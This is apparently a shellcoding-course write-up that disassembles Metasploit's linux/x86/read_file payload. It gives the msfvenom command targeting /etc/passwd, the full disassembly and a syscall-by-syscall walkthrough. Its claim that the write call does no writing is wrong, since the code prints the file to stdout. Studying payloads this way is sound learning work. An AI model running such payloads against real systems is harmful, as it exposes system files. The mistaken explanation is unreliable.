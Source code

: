 # Solution

## Ndisasm way

If we dump the nasm code from the payload (msfvenom -p linux/x86/read_file PATH=/etc/passwd -f raw | ndisasm -u -), here is what we can see:

    00000000  EB36              jmp short 0x38
    00000002  B805000000        mov eax,0x5
    00000007  5B                pop ebx
    00000008  31C9              xor ecx,ecx
    0000000A  CD80              int 0x80
    0000000C  89C3              mov ebx,eax
    0000000E  B803000000        mov eax,0x3
    00000013  89E7              mov edi,esp
    00000015  89F9              mov ecx,edi
    00000017  BA00100000        mov edx,0x1000
    0000001C  CD80              int 0x80
    0000001E  89C2              mov edx,eax
    00000020  B804000000        mov eax,0x4
    00000025  BB01000000        mov ebx,0x1
    0000002A  CD80              int 0x80
    0000002C  B801000000        mov eax,0x1
    00000031  BB00000000        mov ebx,0x0
    00000036  CD80              int 0x80
    00000038  E8C5FFFFFF        call 0x2
    0000003D  2F                das
    0000003E  657463            gs jz 0xa4
    00000041  2F                das
    00000042  7061              jo 0xa5
    00000044  7373              jnc 0xb9
    00000046  7764              ja 0xac
    00000048  00                db 0x00

Let's analyze the content of this step by step.

   1) 00000000  EB36              jmp short 0x38 ; Jump to 0x38 

   2) 00000038  E8C5FFFFFF        call 0x2 ; Execute 0x2

   3)  00000002  B805000000        mov eax,0x5 ; 5 is set to EAX <=> Syscall, function open selected

       00000007  5B                pop ebx ; The content of the top of the stack is set to ebx, 
                                            ; in this case, /etc/passwd).
    
![alt text](https://github.com/MrSquid25/SLAE/blob/master/Assignment%205/read_file/pop_ebx.PNG "Pop Ebx")

   4)  00000008  31C9              xor ecx,ecx ; Clearing out ecx, now is 0
       
   5)  0000000A  CD80              int 0x80 ; int open(const char *pathname, int flags); open(/etc/passwd, 0) 
   
       where EAX is 5=OPEN, EBX is etc/passwd=PATH and ECX is 0=FLAGS
   
   6) 0000000C  89C3              mov ebx,eax ; Eax is set to ebx
   
   7) 0000000E  B803000000        mov eax,0x3  ; Eax is set to 3 <=> Syscall, function read selected
   
   8) 00000013  89E7              mov edi,esp ; Top of stack set to edi;
   
   9) 00000015  89F9              mov ecx,edi ; Edi set to ecx;
   
   10) 00000017  BA00100000        mov edx,0x1000 ; Edx set to 4096 (decimal)
   
   11) 0000001C  CD80              int 0x80 Read function executed --> ssize_t read(int fd, void *buf, size_t count);
   
    EAX=3=READ,EBX=3=FD, ECX=EDI=BUF, EDX=4096=COUNT
   
   12) 0000001E  89C2              mov edx,eax ; EDX set to EAX
   
   13) 00000020  B804000000        mov eax,0x4 ; Eax to 4 <=> Syscall, function write
   
   14) 00000025  BB01000000        mov ebx,0x1 ; Ebx=1
   
   15) 0000002A  CD80              int 0x80 ; ssize_t write(int fd, const void *buf, size_t count);
 
    In this case, is just called but no writing is done.
 
   16) 0000002C  B801000000        mov eax,0x1 ; Exit called
   
   17) 00000031  BB00000000        mov ebx,0x0
   
   18) 00000036  CD80              int 0x80 ; Execution of exit 
   
